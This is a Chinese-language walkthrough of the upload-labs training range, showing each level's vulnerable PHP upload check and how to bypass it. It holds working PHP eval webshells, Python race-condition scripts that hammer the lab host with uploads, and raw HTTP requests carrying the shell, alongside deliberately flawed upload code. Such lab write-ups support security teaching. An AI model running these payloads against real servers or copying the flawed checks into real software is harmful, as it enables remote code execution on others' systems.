

[upload-labs](https://github.com/c0ny1/upload-labs)

> upload-labs是一个使用php语言编写的,专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场,旨在帮助大家对上传漏洞有一个全面的了解
>
> 目前一共20关,每一关都包含着不同上传方式,建议使用windows环境

---

## Pass-01

>绕过js

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传,请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

上传后缀为`.jpg`的webshell然后burpsuite捉包改后缀名为`.php`即可

## Pass-02

>绕过MIME

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确,请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

`Content-Type: application/x-php`更改为`Content-Type: image/jpeg`

## Pass-03

>特殊可解析后缀
>
>如果直接使用docker部署,这题没有配置特殊后缀解析
>
>因此需要在`/etc/apache2/apache2.conf`中添加`AddType application/x-httpd-php .php .phtml .phps .php3 .php5 .pht`,然后重启容器

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

上传一个`.phtml`后缀的webshell

## Pass-04

>.htaccess

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

上传`.htaccess`

```html
<FilesMatch "a.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

或者

`AddType application/x-httpd-php .jpg`

上传名为`a.jpg`的webshell

## Pass-05

>大小写绕过

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

少了`$file_ext = strtolower($file_ext);`这句用于转换为小写的代码,上传名为`a.PHp`的webshell

## Pass-06

>后缀名加空格

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

少了`$file_ext = trim($file_ext);`这句用于首尾去空的代码,因此利用windows系统的命名规则进行绕过,上传名为`a.php `的webshell

## Pass-07

>后缀名加`.`

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

少了`$file_name = deldot($file_name);`这句用于删除文件名末尾的点的代码,因此利用windows系统的命名规则进行绕过,上传名为`a.php.`的webshell

## Pass-08

>后缀名加`::$DATA`

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

少了`$file_ext = str_ireplace('::$DATA', '', $file_ext);`这句用于删除`::$DATA`的代码,因此利用NTFS的特性进行绕过,上传名为`a.php::$DATA`的webshell,访问`a.php`进行getshell

>Windows下,如果文件名为`a.php::$DATA`时,`::$DATA`之后的数据当成文件流处理,不会检测后缀名,而保持`::$DATA`之前的文件名,即`a.php`

## Pass-09

>`. .`绕过

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

上传名为`a.php. .`的webshell,经过过滤后的文件名为`a.php.`,根据windows的文件名规则,最后的`.`被忽略,变成`a.php`

## Pass-10

>双写绕过

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

`$file_name = str_ireplace($deny_ext,"", $file_name);`,上传名为`a.pphphp`的webshell,访问`a.php`进行getshell

## Pass-11

>00截断

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

GET参数`?save_path=../upload/a.php%00`,上传名为`a.jpg`的webshell,访问`a.php`进行getshell

## Pass-12

>00截断

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

POST参数`../upload/a.php%00`,`%00`需要进行URLdecode,上传名为`a.jpg`的webshell,访问`a.php`进行getshell

## Pass-13

>文件头检查

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

为`a.php`添加`png`的文件头和文件尾,`jpg`与`gif`同理


## Pass-14

>getimagesize绕过

```php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

使用`Pass-13`的方法或者直接在一张png图片后面添加webshell

windows下制作图片马`copy /b a.png + phpinfo.php b.png`

## Pass-15

>exif_imagetype()绕过

```php
function isImage($filename){
    //需要开启php_exif模块
    $image_type = exif_imagetype($filename);
    switch ($image_type) {
        case IMAGETYPE_GIF:
            return "gif";
            break;
        case IMAGETYPE_JPEG:
            return "jpg";
            break;
        case IMAGETYPE_PNG:
            return "png";
            break;    
        default:
            return false;
            break;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

webshell同上

## Pass-16

>二次渲染绕过

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagejpeg($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagepng($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagegif($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}
```

`imagecreatefromxxx($target_path)`对图片进行了二次渲染,目标是图片在进行二次渲染后,仍然能够保留webshell

[upload-labs之pass 16详细分析](https://xz.aliyun.com/t/2657)

### GIF

GIF来源于[GIF-wikipedia](https://en.wikipedia.org/wiki/GIF)

`1.gif`为原图片,`2.gif`为二次渲染之后的图片,可以看到webshell仍然可用


### PNG

将webshell置于PLTE块中,然后重新计算CRC(010Editor可以自动计算)

`source.png`为原图片,`1.png`为插入webshell后重新计算CRC的图片,`2.png`为二次渲染之后的图片



### JPG

[jpg_payload](https://github.com/BlackFan/jpg_payload/blob/master/jpg_payload.php)

## Pass-17

>条件竞争

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);//获取实际拓展名
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

先将文件上传到服务器,再对文件类型进行判断,然后进行删除,因此在unlink前保证webshell可以访问即可,即不断发送上传webshell的数据包

```python
# -*- coding: UTF-8 -*-
import requests
import multiprocessing


def upload(list):
    url = "http://192.168.1.12/Pass-17/index.php"
    target_url = "http://192.168.1.12/upload/getshell.php"
    file = {'upload_file': (
        'getshell.php', "<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[a]);?>');?>", 'image/jpeg')}
    data = {'submit': '上传'}
    upload_post = requests.post(url=url, data=data, files=file)
    upload_check = requests.get(url=target_url)
    if upload_check.status_code == 200:
        print("getshell!!!")


Threadpool = multiprocessing.Pool(200)
Threadpool.map(upload, range(10000))
Threadpool.close()
Threadpool.join()
```

通过在删除文件前访问`getshell.php`,从而在upload目录下生成一个持久的shell

## Pass-18

>条件竞争

查看源代码可知,先进行了文件的移动`$ret = $this->move();`再进行文件的重命名`$ret = $this->renameFile();`,因此在文件进行重命名之前利用Apache的解析漏洞来访问即可getshell

```python
import requests
import multiprocessing


def upload(list):
    url = "http://192.168.1.123/Pass-18/index.php"
    target_url = "http://192.168.1.123/uploadgetshell.php.7z"
    file = {'upload_file': (
        'getshell.php.7z', "<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[a]);?>');?>", 'image/jpeg')}
    data = {'submit': '上传'}
    upload_post = requests.post(url=url, data=data, files=file)
    upload_check = requests.get(url=target_url)
    if upload_check.status_code == 200:
        print("getshell!!!")


Threadpool = multiprocessing.Pool(100)
Threadpool.map(upload, range(10000))
Threadpool.close()
Threadpool.join()
```

## Pass-19

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

`move_uploaded_file`会清除掉文件名末尾的`/.`因此可以利用文件名`a.php/.`来绕过第一次的文件拓展名检查,然后利用清除,达到上传`a.php`的目的

```
POST /Pass-19/index.php HTTP/1.1
Host: 0.0.0.0
Content-Length: 414
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBsjaxewFhZnXRVQL
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0.0.0.0/Pass-19/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBsjaxewFhZnXRVQL
Content-Disposition: form-data; name="upload_file"; filename="a.png"
Content-Type: image/png

<?php @eval($_POST['a']);?>
------WebKitFormBoundaryBsjaxewFhZnXRVQL
Content-Disposition: form-data; name="save_name"

a.php/.
------WebKitFormBoundaryBsjaxewFhZnXRVQL
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryBsjaxewFhZnXRVQL--
```

或者利用CVE-2015-2348`move_uploaded_file()`00截断

`move_uploaded_file()`中的img_path是由save_name控制的,因此可以在save_name利用00截断绕过`a.php%00.jpg`,得到`a.php`

## Pass-20

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

上传一个`save_name`数组,第一个参数为`a.php/`,第二个参数为空,第三个参数为`jpg`,因此满足了拓展名检查的需要而`reset($file)`得到`a.php/`

`$file[count($file)-1]`等价与`$file[1]`,因为`count`不对空参数进行统计,而`$file[1]`为空,因此传递到`move_upload_file`的参数为`a.php/.`,然后的步骤跟上题一致

```
POST /Pass-20/index.php?action=show_code HTTP/1.1
Host: 192.168.8.9
Content-Length: 518
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.8.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrbf06RIpGRTVM5LU
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.8.9/Pass-20/index.php?action=show_code
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryrbf06RIpGRTVM5LU
Content-Disposition: form-data; name="upload_file"; filename="a.png"
Content-Type: image/png

<?php @eval($_POST['a']);?>
------WebKitFormBoundaryrbf06RIpGRTVM5LU
Content-Disposition: form-data; name="save_name[0]"

a.php/
------WebKitFormBoundaryrbf06RIpGRTVM5LU
Content-Disposition: form-data; name="save_name[2]"

jpg
------WebKitFormBoundaryrbf06RIpGRTVM5LU
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryrbf06RIpGRTVM5LU--
```